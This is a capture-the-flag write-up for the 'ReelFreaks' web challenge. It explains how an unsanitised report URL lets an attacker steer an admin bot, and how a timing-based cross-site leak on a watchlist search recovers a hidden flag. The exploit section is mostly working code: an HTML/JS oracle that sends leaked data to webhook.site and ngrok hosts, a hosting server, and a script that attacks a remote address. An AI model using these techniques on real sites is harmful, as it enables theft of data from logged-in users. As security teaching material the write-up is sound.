






# ReelFreaks DTCF24 Challenge Writeup

## Info
>**Author**: *Dages*<br/>
**Category**: Web<br/>
**Solves**: 26<br/>
**Team**: Tower of Hanoi

## Description
>Some things are better to remain unseen. Unless, of course, you are a real freak.<br/>
NOTE: the website is served over HTTPS<br/>
Flag format: DCTF{}

## Solution

### Source code analysis
Code source is provided in the challenge, and we can see that it is a flask application, with a sqlite database, and a bot that visits pages.

#### Logic flow

Skimming through the source code we find the python flask application with two main parts: the **main** where it handles the movies logic and the **auth** where it handles the register and login logic. 

There it seems to not be any vulnerabilities on the **auth** part, but we can find whenever we register a new user, it sets its role to **`regular_freak`**:
```python
# auth.py
...
9:  @auth.route('/register', methods=['POST'])
10: def signup_post():
...
19:   new_user = User(username=username, password=generate_password_hash(password, method='scrypt'),role='regular_freak')
...
```

We can also see in the `models.py` file the attributes of the **User** class, and the **Movie** class. It looks like there are some attributes that looks unusual/interesting, the **User** class has a **role** and a **watchlist** attribute, and the Movie class has a **banned** attribute, along with a **watched_by** list attribute.

```python
# models.py
...
4:  class User(db.Model):
...
7:    role = db.Column(db.String(50))
8:    watchlist = db.Column(db.String(1000),default='[]')
...

31: class Movie(db.Model):
...
36:   banned = db.Column(db.Boolean, nullable=False)
37:   watched_by = db.Column(db.String(10000),default='[]')
...
```

After further inspection on the main part we can see that the app allows us to add movies to our watchlist through a POST request to the `/add_movie` endpoint, and to list our watchlisted movies using a GET request to `/watchlist`. 

Furthermore there is a `/movie/<id>` endpoint that allows us to see info about the movie with the given id. BUT, the movie **must not be banned**, otherwise it will return a 404 error.
```python
@main.route('/movie/<int:id>', methods = ['GET'])
def movie(id):
    movie = db.session.query(Movie).get(id)
    if movie and movie.banned == False:
        return render_template("movie.html", movie=movie)
    abort(404)
```

We can also see a weird behavior on the `/watchlist` endpoint, where if the user has the role **`real_freak`**, it will list **all the movies** that are in our watchlist, even the banned ones, while on the home page it only lists the movies that are not banned.

Nonetheless, we have a `/report` endpoint that can be used to report a movie, it will call the `visit` function from the `bot.py` file, which will make a visit the movie page we provide. We can see instantly that there is no sanitization on the input, and it is vulnerable to injection.
```python
# main.py
 ...
 75: @main.route('/report', methods=['POST'])
 76: @login_required
 77: def report():
>78:   url = "https://127.0.0.1" + request.form.get('movie')
 79:   thread = threading.Thread(target=visit,args=(url,))
 80:   thread.start()
 81:   return 'OK'
 ...
```

##### Url Parsing
URL is composed of multiple parts: i.e. `https://127.0.0.1:80/movie`:
- protocol: `https://`
- authority: `127.0.0.1`
- port: `80`
- path: `/movie`

Url parsing is really hard since it can beIn fact, since the url , (it is) interpreted in many ways, by different libraries/technologies. [see Orange Tsai's slides on this](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)

In the authority part we can also include user authentication information, like `user:password@`, or just `user@`

Now, what will it happen if we send a POST request to the endpoint `/report` with the following payload?

```json
{
  "movie": "@google.com"
}
```

The `visit` function will be called with the url `https://127.0.0.1@google.com`, and the `requests.get` function will interpret it as a request to `https://google.com` with an authentication header in the request.

You can actually test that out if you open a shell and start listening to a specific port,
```bash
$ nc -l 12345
```
 and call curl at the same port, you will see that the request will be made to the port you are listening to.
```bash
$ curl 127.0.0.1@localhost:12345
```

You can see that the Authorization header is actually the '127.0.0.1' (base64 encoded) we added before the '@' in the url.

Thus, we can make the bot visit any page we want.

Okay... but where is the flag? There is still one file we didn't check yet, and that's the `db.sqlite` file. Let's take a look at it.
I used the `sqlitebrowser` tool to open the database file and inspect it, but there are other tools and ways to do it.

#### Database inspection
We can see all the tables with their respective columns, and the data inside them. The tables are **user** and **movie**.




We can see that there is one user with the role **`real_freak`**, and with a watchlist set to [30], that is the admin that the bot logins into, and we can see finally the **flag** in one of the movies title, exactly as the movie with **id 30**. And as expected, that movie is banned. So no way to see it through the website, under a "regular_freak" role.

#### Summary
So, there is this admin account, that we do not know username/password (it is admin/admin only in the source code provided, not in the remote one), but that the bot can access to, that is able to see the banned movies through the `/watchlist` endpoint. 

### Exploitation

#### Ideas
At this point the easiest ways to get the flag could be:
- **Leak the cookie session of the admin account**: This would be the easiest way, but we do not have any way to do it, since not even we have not found any xss on the challenge domain but the session cookie is **HTTPOnly**, meaning it cannot be accessed by javascript code.
- **Bruteforce the admin account**: We could bruteforce the admin account, but it would take a lot of time, as we do not even know the username.

Another interestingly point is that the cookie is **HTTPOnly**, so no leaking directly, but it is also **SameSite=None**, so we can make requests to the website from another domain, and the cookie will be sent. That means we can make the bot visit pages from our domain.

What can we do if we can make the bot visit pages from our domain? 
We need first to see which pages are interesting for us:
- `/movie/<id>`: We can see the info of the movie with the given id, but only if it is not banned. Thus, no flag here.
- `/`: We can see the list of movies that are not banned, thus no flag here.
- `/watchlist`: We can see the list of movies that are in our watchlist, even the banned ones, if we are a `real_freak`. This is it. We notice also that in the source code, the `/watchlist` endpoint, along with the `/` endpoint, provide a "filter" feature, using the `q` query parameter. This filter uses the method from SQLAlchemy.ilike, that is **case-insensitive**.

```python
# main.py
...
31: @main.route('/watchlist')
32: @login_required
33: def watchlist():
34:   movie_ids = current_user.get_watched()
35:   query= request.args.get('q', '').lower()
36:   if query:
37:     movies = db.session.query(Movie).filter(Movie.id.in_(movie_ids),Movie.title.ilike(f'%{query}%')).all()
...
```

Even though it may look like the `query` input is injectable in the **ilike** method, it is not, since it is sanitized/escaped by the ilike method itself before being passed directly to the db.

This query parameter suggests us that we can have **two different cases**, 
1. The search query is valid and gives us the flag movie
2. The search query is invalid and does not give us the flag movie.

We can use this to leak the flag character by character.

There are many ways to leak info, [see xsleaks](https://xsleaks.dev/), since we do not have a [focusable elements*](#(*)-focusable-elements) that appears only when the guess is correct, thus the `id-attribute leak` is not possible, what we have instead is an image, that will be loaded only when the flag is present, this leads us to use the **time-based one**, since loading of an image should take more time, than not loading it at all.

###### (*) Focusable elements
 elements that can be focused by the user, like an input field, a button, a link, etc. there is not a final list, since it is in the end up to the browser.

#### Exploit plan
1. Register a new user (will have role `regular_freak`)
2. Use the injection in the `/report` endpoint to make the bot visit our web server where we host the exploit
3. Use the time-based technique to leak the flag character by character

##### Our web server
I used a simple python flask application to host the exploit, and I used `ngrok` to make it accessible from the internet.

##### Time-based technique
The time-based technique consists in measuring the time it takes to load a resource, in this case, the page that will or not, contain the image. As shown in xsleaks, we can use an `iframe` and with the `onload` event and the `performanceAPI` measure the time it takes to load the page.

```html
<body>
  <script>
    guess = 'DCTF{'
    const iframe = document.createElement('iframe');
    iframe.src = 'https://127.0.0.1:5000/watchlist?q='+guess;
    const start = performance.now();
    iframe.onload = () => {
      const end = performance.now();
      console.log(end-start);
    }
    document.body.appendChild(iframe);
  </script>
</body>
```

Even though it seems like we have it, that was not the case. The requests were not really working as expected, and I noticed that for the first requests made, the time was not really a difference between the two cases. I noticed though, that after a few requests, probably due to the caching mechanism, the ones with the image would not take less than 90/100ms to load, while the ones without the image would take less than 40ms. This was a good enough difference to make the exploit work.

Thus I made a loop of 5 times that would make requests to the `/watchlist` endpoint with the query parameter set to the guess, and if at least one request loaded in less than 50ms, that would mean the guess was not correct, if all of them where higher 50 the that would mean that it was the right guess.

##### Making the oracle work
The oracle works this way:
- We have an alphabet of characters that we can guess, and we start with the first one (we save the current index in the hash of the url)
- We have a current flag that we know so far (we save that too in the hash)
- We make the requests to the `/watchlist` endpoint with the query parameter set to the current flag + the current character
- If the time is higher than 50ms, we know that the current character is correct, and we move to the next one, saving the new current flag and the new current character (showing to our endpoint the new current flag)
- If the time is lower than 50ms, we know that the current character is not correct, and we move to the next one, saving the new current flag and the new current character (showing to our endpoint the new current flag)

```html
<script>
    let correct_guess = true;
    const sleep = (ms) => new Promise((resolve) => setTimeout(resolve, ms));
    const hash = window.location.hash?.slice(1) || "0|DCTF{";
    const currentflag = hash.split("|")[1] || "DCTF{";
    let idx = hash.split("|")[0] || "0";
    try {
      idx = parseInt(idx);
    } catch {
      idx = 0;
    }
    const chars = "abcdefghijklmnopqrstuvwxyz}_-!@|:<>?-=[]\;',./{_";
    let current_char = chars[idx];
    const next = async (time, currentflag, current_char, idx) => {
      await sleep(100);
      window.open(
        `/leak?time=${time}&flag=${currentflag}&current_char=${current_char}#${idx}|${currentflag}`
      );
      window.close();
    };
    const show = async (time, currentflag, current_char, idx) => {
      await sleep(100);
      window.open(
        `/show?time=${time}&flag=${currentflag}&current_char=${current_char}(${idx})#${idx}|${currentflag}`
      );
    };
    const leak = async () => {
      let loaded = false;
      let checkiframe = document.createElement("iframe");
      checkiframe.src =
        "{{target_url}}/watchlist?q=" + currentflag + current_char;
      checkiframe.onload = () => {
        loaded = true;
        let time = performance.now() - start;
        show(time, currentflag, current_char, idx);
        if (time < 40) {
          correct_guess = false;
        }
      };
      let start = performance.now();
      document.body.appendChild(checkiframe);
      while (!loaded) {
        await sleep(100);
      }
    };

    const main = async () => {
      for (i = 0; i < 5; i++) {
        await leak();
        await sleep(950); // needed to slow down requests and make the timing stable
        if (!correct_guess) {
          break;
        }
      }
      if (correct_guess) {
        await fetch("{{ngrok_url}}?flag=" + currentflag, {
          mode: "no-cors",
        });
        next(0, currentflag + current_char, current_char, 0);
      } else {
        next(0, currentflag, current_char, idx + 1);
      }
    };
    main();
  </script>
```
I made the next and show function just to be verbose (I added extra query parameters to the url that will be only used to let me see the current state of the exploit)

Great, now it should work in theory, but... after we send the `/report` request, the bot visits our page and then... does nothing.

After trying to figuring out what was happening I skimmed the `bot.py` file again and noticed that the bot was closing the browser as soon as the network was **idle**, with a timeout of 60000ms, this means that if we serve the page with just the exploit, after the bot finishes loading the page, it will close the browser, and we will not be able to make the exploit work properly.
```python
# bot.py
...
4:  def visit(url):
...
26:       page.goto(url,wait_until="networkidle",timeout=60000)
27:
28:       browser.close()
...
```

Then we need a way to make the bot hang for a while, a quick and effective way to do this is to add an endpoint in our server that sleeps for 60+ seconds, and make the bot ask for that resource.

```python
# in our flask server
@app.route("/sleep/<int:seconds>")
def sleep(seconds):
  # sleep
  time.sleep(seconds)
  return "Sleeped for {} seconds".format(seconds)
```

And add this to our html exploit
```html
    
```

This way the network will not be idle, and the bot will not close the browser, and we can make the requests to the `/watchlist` endpoint.

Finally we can test the working guess (all 5 requests were > 50ms):


and the not working guess (at least one request was < 50ms):



##### Oracle improvements
###### Stability
Some improvements to the stability of the oracle could have been to register lots of users and make all of them add the flag movie to their watchlist, (you were able to add banned movies to your watchlist), to increase the latency when the correct guess was done. Even though I tried to implement that, I didn't notice any difference in the time it took to load the page the first time, so I didn't use it in the final exploit.

###### Speed
To improve the speed of the oracle, I tried using a parallel approach, but the multiple requests made at the same time were unstabilizing the timing, thus making it unreliable.

###### Alphabet
An interesting approach I used was to use the  **\_** character in the alphabet as the wildcard character, since in the SQLAlchemy.ilike method it is interpreted as any character. In the reality my alphabet was shorter and I used the **\_** character as the wildcard character at the end to understand if the flag was finished or not.

#### Final exploit

0. Host the exploit using a python flask server and ngrok
```python
# server.py
from flask import Flask, request, render_template
import re
import sys
import time
from pwn import *
import socket

target_url = 'https://127.0.0.1:5000'
webhook_url = 'https://webhook.site/933c1987-bee7-4b20-a9d1-284f3fbd0a18'
port = 5000

app = Flask(__name__)

@app.route('/leak', methods=['GET', 'POST'])
def leak():
  return render_template('check_char.html', target_url=target_url, webhook_url=webhook_url)

@app.route("/sleep/<int:seconds>")
def sleep(seconds):
  # sleep
  time.sleep(seconds)
  return "Sleeped for {} seconds".format(seconds)

def start_server(port):
  # check if port is busy
  sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  result = sock.connect_ex(('',port))
  if result == 0:
    print(f"[!] Port {port} is busy. aborting")
    exit(0)
  sock.close()
  app.run(port=port)#, ssl_context=context)


if __name__ == '__main__':
  if (len(sys.argv) > 1):
    argv_port = sys.argv[1]
    # if argv_port is a number between 0 and 65535
    if (argv_port.isdigit() and (int(argv_port) > 0) and (int(argv_port) < 65535)):
      port = int(argv_port)
  else:
    print("Usage: python3 server.py [port=5000]")
    pass

  start_server(port)
```
```html
<!-- check_char.html -->
 <body>
  
  <script>
    let correct_guess = true;
    const sleep = (ms) => new Promise((resolve) => setTimeout(resolve, ms));
    const hash = window.location.hash?.slice(1) || "0|DCTF{";
    const currentflag = hash.split("|")[1] || "DCTF{";
    let idx = hash.split("|")[0] || "0";
    try {
      idx = parseInt(idx);
    } catch {
      idx = 0;
    }
    const chars = "abcdefghijklmnopqrstuvwxyz0134567}_-!@|:<>?-=[]\;',./{_";
    let current_char = chars[idx];
    const next = async (time, currentflag, current_char, idx) => {
      await sleep(100);
      window.open(
        `/leak?time=${time}&flag=${currentflag}&current_char=${current_char}#${idx}|${currentflag}`
      );
      window.close();
    };
    const show = async (time, currentflag, current_char, idx) => {
      await sleep(100);
      window.open(
        `/show?time=${time}&flag=${currentflag}&current_char=${current_char}(${idx})#${idx}|${currentflag}`
      );
    };
    const leak = async () => {
      let loaded = false;
      let checkiframe = document.createElement("iframe");
      checkiframe.src =
        "{{target_url}}/watchlist?q=" + currentflag + current_char;
      checkiframe.onload = () => {
        loaded = true;
        let time = performance.now() - start;
        show(time, currentflag, current_char, idx);
        if (time < 40) {
          correct_guess = false;
        }
      };
      let start = performance.now();
      document.body.appendChild(checkiframe);
      while (!loaded) {
        await sleep(100);
      }
    };

    const main = async () => {
      for (i = 0; i < 5; i++) {
        await leak();
        await sleep(950);
        if (!correct_guess) {
          break;
        }
      }
      if (correct_guess) {
        await fetch("{{webhook_url}}?flag=" + currentflag, {
          mode: "no-cors",
        });
        next(0, currentflag + current_char, current_char, 0);
      } else {
        next(0, currentflag, current_char, idx + 1);
      }
    };

    main();
  </script>
</body>
```
1. Running both python server and ngrok for tunneling
```bash
$ python3 server.py 5000
$ ngrok http 5000
```
2. Registering a new user and reporting python exploit
```python
# x.py
from pwn import *
import requests

s = requests.Session()
s.verify = False

username = 'abcabc123'
password = 'abcabc123'

target_url = 'https://localhost:5000'
if args.REMOTE:
  target_url = "https://34.107.26.201:31841"

flag = args.FLAG if args.FLAG else 'DCTF{'
idx = args.IDX if args.IDX else 0
webhook_url = 'https://webhook.site/933c1987-bee7-4b20-a9d1-284f3fbd0a18'
ngrok_url = "6d7a-2a00-6d43-314-d201-2906-cac5-b873-cfdd.ngrok-free.app"

def report(flag, idx):
  r = s.post(target_url + '/report', data={'movie': f'@{ngrok_url}/leak#{idx}|{flag}'})
  if r.text == 'OK':
    print('Reported')
    return True
  else:
    print(f'[{r.status_code}] Failed to report', r.text)
    return False

def register():
  r = s.post(target_url + '/register', data={'username': username, 'password': password})
  if r.status_code == 200:
    print('Registered')
    return True
  else:
    print('Failed to register')
    return False

def login():
  r = s.post(target_url + '/login', data={'username': username, 'password': password})
  if r.status_code == 200:
    print('Logged in')
    return True
  else:
    print('Failed to login')
    return False

def exploit():
  global idx, flag
  register()
  r = login()
  if r:
    report(flag, idx)

exploit()
```
4. Iterate until all characters of the flag are leaked
```bash
$ python3 x.py flag=DCTF{ idx=0
```
5. Retrieve the flag


**`DCTF{l3ak_ev3ry_d4y_0f_ev3ry_w33k}`**